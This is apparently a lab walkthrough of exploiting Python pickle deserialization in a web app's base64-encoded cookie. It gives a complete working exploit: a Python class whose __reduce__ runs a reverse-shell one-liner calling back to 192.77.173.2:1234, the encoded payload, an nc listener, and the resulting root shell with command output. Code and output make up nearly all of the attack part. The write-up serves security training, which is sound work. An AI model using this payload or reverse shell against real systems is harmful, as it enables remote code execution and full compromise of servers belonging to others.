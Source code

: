 # Pickle Deserialization RCE

We see cookie received is base64 encoded

![pickle cookie](pickle-cookie.png)

`KGRwMApTJ3VzZXJuYW1lJwpwMQpTJ2pvaG4nCnAyCnMu`

Decodes as

```
(dp0
S'username'
p1
S'john'
p2
s.
```

Deserialize into data structure
```python
root@attackdefense:~# python
Python 2.7.17 (default, Jan 19 2020, 19:54:54) 
[GCC 9.2.1 20200110] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import base64
>>> import pickle
>>> 
>>> pickled=base64.b64decode("KGRwMApTJ3VzZXJuYW1lJwpwMQpTJ2pvaG4nCnAyCnMu")
>>> pickled
"(dp0\nS'username'\np1\nS'john'\np2\ns."
>>> pickle.loads(pickled)
{'username': 'john'}
```

Craft RCE deserialization payload
```python
import pickle
import base64
import subprocess
import os


class Shell(object):
    def __reduce__(self):
      return (os.system,("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.77.173.2\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'&",))


pickledData=pickle.dumps(Shell())
print(base64.b64encode(pickledData))
```

Running it gets us the payload
```
root@attackdefense:~# python pickled.py 
Y3Bvc2l4CnN5c3RlbQpwMAooUydweXRob24gLWMgXCdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTkyLjc3LjE3My4yIiwxMjM0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2giLCItaSJdKTtcJyYnCnAxCnRwMgpScDMKLg==

```

Start a nc listener
```
root@attackdefense:~# nc -lvnp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

Replace cookie value with pickled payload and reload request on Burp

![burp](pickle-burp.png)

We receive reverse shell
```
root@attackdefense:~# nc -lvnp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 192.77.173.3.
Ncat: Connection from 192.77.173.3:51768.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# ps -eaf
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 11:49 ?        00:00:00 /usr/bin/python /usr/bin/supervisord -n
root           8       1  0 11:49 ?        00:00:00 python /app/main.py
root          58       1  0 12:30 ?        00:00:00 python -c import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.77.173.2",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
root          59      58  0 12:30 ?        00:00:00 /bin/sh -i
root          61      59  0 12:30 ?        00:00:00 ps -eaf
```
